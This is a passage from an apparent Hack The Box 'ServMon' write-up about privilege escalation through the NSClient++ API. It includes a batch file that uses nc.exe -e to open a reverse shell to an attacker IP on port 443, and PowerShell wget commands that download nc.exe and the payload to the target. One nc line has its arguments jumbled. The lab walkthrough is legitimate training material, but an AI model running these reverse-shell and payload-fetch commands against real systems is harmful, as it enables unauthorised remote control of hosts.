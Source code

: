 #### Privilege Escalation using NSClient++ API

to access nsclient++, we have followed the instructions from https://docs.nsclient.org/api/rest/queries/#command-execute

go back again to the note, create evil.bat and follow like the instructions and put out an IP address

```
===================================================================
From note
===================================================================

3. Download nc.exe and evil.bat to c:\temp from attacking machine
 @echo off
 c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe
 
===================================================================
From attacker
===================================================================

@echo off
c:\temp\nc.exe -e 10.10.14.15 443 powershell 
```

![08](/assets/images/htb-machine-servmon/08.png)
 
download nc.exe from your computer, and prepare nc.exe and evil.bat and run the webserver
 
![09](/assets/images/htb-machine-servmon/09.png)
 
run these instructions to download nc.exe and evil.bat
 

```
nadine@SERVMON C:\Program Files\NSClient++>cd c:\

nadine@SERVMON c:\>powershell.exe wget "http://10.10.14.15/nc.exe" -outfile "c:\temp\nc.exe"

nadine@SERVMON c:\>powershell.exe wget "http://10.10.14.15/evil.bat" -outfile "c:\temp\me.bat"

nadine@SERVMON c:\>cd c:\temp

nadine@SERVMON c:\Temp>
```
